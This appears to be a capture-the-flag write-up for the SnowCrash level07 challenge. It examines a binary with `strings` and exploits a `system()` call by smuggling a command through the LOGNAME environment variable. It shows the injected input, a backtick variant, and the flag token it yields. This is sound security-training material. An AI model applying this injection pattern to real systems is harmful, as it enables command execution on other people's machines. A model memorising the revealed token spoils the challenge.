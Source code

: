 1. **File Search**

    Running the program only shows the output `level07`, nothing interesting here, but if we look with `strings` we find some things:
    ```bash
    strings level07
    [...]
    getenv
    LOGNAME
    /bin/echo %s
    system
    [...]
    ```
    1. Use of environment variables and system()
        - `getenv`, `LOGNAME`, and `/bin/echo %s` appear, suggesting that the binary reads the `LOGNAME` environment variable and passes it to an `echo` command using `system()`.
    2. Dangerous functions
        - `system`, `asprintf`, `getenv` are used, which is often a vulnerability vector if the user controls the content of the environment variable.
    3. Source code path
        - `/home/user/level07/level07.c` appears, indicating that the binary is not obfuscated and you can probably find the source code or deduce its logic.
    4. Suspicious string
        - `zE&9qU` could be a password, flag, or relevant data.

    The binary probably executes something like:
    ```bash
    system("/bin/echo $LOGNAME");
    ```

2. **Exploitation**

    If we can modify the environment variable, we could inject commands:
    ```bash
    level07@SnowCrash:~$ LOGNAME='hello; getflag' ./level07
    hello
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    ```

export LOGNAME=\`getflag\`

